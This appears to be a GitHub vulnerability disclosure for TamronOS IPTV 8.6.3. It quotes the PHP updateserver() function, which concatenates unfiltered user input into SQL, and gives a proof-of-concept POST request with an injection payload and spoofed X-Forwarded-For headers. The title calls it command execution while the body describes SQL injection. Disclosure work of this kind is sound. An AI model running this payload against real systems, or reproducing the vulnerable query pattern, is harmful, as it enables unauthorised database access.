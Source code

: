 # Tamronos-iptv-update_server_status-sql

The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/


## Vulnerability Details

The `update_server_status()` method in the `iptv/Controllers/ApkapiController.php` file was directly passed into the `updateserver()` method without filtering the `$ip`, `$sid`, and `$netstream` parameters passed in by the user, resulting in SQL injection.

updateserver() Code:
```
	function updateserver($ip,$sid,$netstream)
	{
		$sql = "select * from videoserver where ip='".$ip."' and sid=".$sid;
		$this->query($sql);
        if(!is_numeric($netstream))
            $netstream = 0;
        $sql = "update videoserver set netstream=".$netstream." where ip='".$ip."' and sid=".$sid;
        //error_log($sql);
        $this->query($sql);
	}
```
![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/718016c0-0d0e-441b-ba32-c3661513066d)


## Recurrence vulnerability
Test version : `TamronOS IPTV 8.6.3`

request data
```
POST /api/update_server_status.ecgi HTTP/1.1
Host: 172.16.49.166
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Referer: http://172.16.49.166/manage
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
sec-ch-ua-platform: "macOS"
sec-ch-ua: "Google Chrome";v="111", "Chromium";v="111", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

ip=1&sid=1 and 1
```
![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/86b53221-f1c1-4eb4-94f7-1e435745857e)
